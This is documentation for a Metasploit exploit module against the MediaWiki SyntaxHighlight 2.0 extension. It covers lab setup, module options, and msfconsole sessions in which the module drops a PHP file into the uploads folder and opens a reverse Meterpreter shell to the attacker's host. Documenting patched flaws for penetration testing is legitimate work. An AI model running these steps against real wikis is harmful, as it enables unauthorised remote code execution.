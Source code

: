 ## Vulnerable Application

  Any MediaWiki installation with SyntaxHighlight version 2.0 installed & enabled. This extension ships with the AIO package of MediaWiki 1.27.x & 1.28.x.
  A fix for this issue is included in MediaWiki version 1.28.2 and version 1.27.3.

## Vulnerable Setup

To set up the vulnerable environment, please do:

  1. Download [MediaWiki (such as 1.28.0)](https://releases.wikimedia.org/mediawiki/1.28/mediawiki-1.28.0.tar.gz)
  2. Install MediaWiki on a LAMP setup (ideally)
  3. Install composer ```curl -sS https://getcomposer.org/installer | sudo php -- --install-dir=/usr/local/bin --filename=composer```
  4. Do: ```cd /var/www/html/mediawiki/extensions/SyntaxHighlight_GeSHi```
  5. Do: ```composer update```
  6. Open your LocalSettings.php with a text editor, and add this line at the end of the file: ```wfLoadExtension( 'SyntaxHighlight_GeSHi' );```

  At this point, you are ready to test this setup. 

## Verification Steps

  1. `use exploit/multi/http/mediawiki_syntaxhighlight`
  2. `set RHOST [ip target site]`
  3. `set TARGETURI [MediaWiki path]`
  4. `set UPLOADPATH [writable path in web root]`
  5. optionally set `RPORT`, `SSL`, and `VHOST`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started
  
## Options

### TARGETURI

  The MediaWiki base path, the URL path on which MediaWiki is exposed. This is normally `/mediawiki`, `/wiki`, or `/w`.

### UPLOADPATH

  Folder name where MediaWiki stores the uploads, make sure to use a relative path here. For a regular installation this is the `images` folder. This folder needs to be writable by MediaWiki and accessible from the web root. The exploit will try to create a PHP file in this location that will later be called through the web server.

### CLEANUP

  Set this to true (the default) to unlink the PHP file created by this exploit module. The cleanup code will only be called when the exploit is successful.

### USERNAME

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the username of that account here.

### PASSWORD

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the password of that account here.

## Scenarios

### The Check command

The module comes with a check command that allows you to check whether the target might be
vulnerable or not, for example:

```
msf exploit(mediawiki_syntaxhighlight) > check
[*] 192.168.146.203:80 The target appears to be vulnerable.
```

### MediaWiki 1.27.1-2 on Ubuntu 16.10

```
msf > use exploit/multi/http/mediawiki_syntaxhighlight 
msf exploit(mediawiki_syntaxhighlight) > set RHOST 192.168.146.137
RHOST => 192.168.146.137
msf exploit(mediawiki_syntaxhighlight) > set TARGETURI /mediawiki
TARGETURI => /mediawiki
msf exploit(mediawiki_syntaxhighlight) > exploit

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Local PHP file: images/bwpqtiqgmeydivskjcjltnldb.php
[*] Trying to run /mediawiki/images/bwpqtiqgmeydivskjcjltnldb.php
[*] Sending stage (33986 bytes) to 192.168.146.137
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.137:55768) at 2017-04-29 14:27:03 +0200
```
